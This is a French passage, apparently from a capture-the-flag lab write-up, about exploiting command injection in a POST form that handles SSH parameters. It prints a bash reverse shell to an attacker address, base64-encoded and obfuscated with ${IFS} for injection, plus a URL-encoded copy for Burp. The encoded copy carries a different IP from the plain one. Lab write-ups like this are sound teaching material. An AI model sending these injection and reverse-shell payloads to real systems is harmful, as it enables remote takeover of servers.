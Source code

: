 On observe un formulaire de type **POST** avec deux paramètres. Si on rentre un hostname puis pas de username, une erreur s'affiche indiquant que les parametres de ssh ne sont pas bon. Une injection de code semble possible !

![Alt text](image-5.png)
![Alt text](image-6.png)

### Reverse Shell
Sur la machine hote, on prepare un reverse shell comme on va pouvoir envoyer dans burp à la machine cible. On le convertie en base64
```bash
┌──(kali㉿kali)-[~]
└─$ echo "bash -i >& /dev/tcp/10.10.14.25/44444 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNS80NDQ0NCAwPiYxCg==
```

```bash
## On execute une commande pour decoder le payload en base64 puis on appel "bash" pour executer le payload
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNS80NDQ0NCAwPiYxCg=="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

## URL encoded :
%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xMjUvNDQ0NDQgMD4mMQo%3D%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D-d%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%3B
```
On envoie dans Burp en passant le payload dans une variable du formulaire POST :
